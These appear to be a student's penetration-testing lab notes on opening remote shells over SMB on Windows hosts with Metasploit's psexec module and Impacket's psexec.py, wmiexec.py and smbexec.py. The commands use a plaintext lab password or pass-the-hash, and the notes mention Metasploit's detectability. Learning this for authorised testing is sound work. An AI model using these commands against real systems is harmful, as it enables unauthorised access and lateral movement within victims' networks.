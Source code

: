 Via Metasploit - with a password
	`use exploit/windows/smb/psexec`
![[Pasted image 20240517104639.png]]
			Here, you use SMBDomain, SMBPass, and SMBUser in order to get a shell
Via Metasploit - with a hash
![[Pasted image 20240517104758.png]]
			Here, you can use just SMBUser and for SMBPass, use the hash gathered
	Metasploit is very noisy.  It's very likely this gets picked up in a live environment

Through psexec - with a password
	`psexec.py marvel.local/fcastle:'Password1'@10.0.0.20`
		If you leave the password out of this part you will be prompted for password when you run the command.

Through psexec - with a hash
	`psexec.py administartor@10.0.0.25 -hashes LM:NT`
		The `-hashes LM:NT` portion will have the hash itself, make sure to get both parts

If psexec is being blocked or is not working, you have a couple other options
	`wmiexec.py` and `smbexec.py` will work in the same fashion with the same syntax as `psexec.py`
	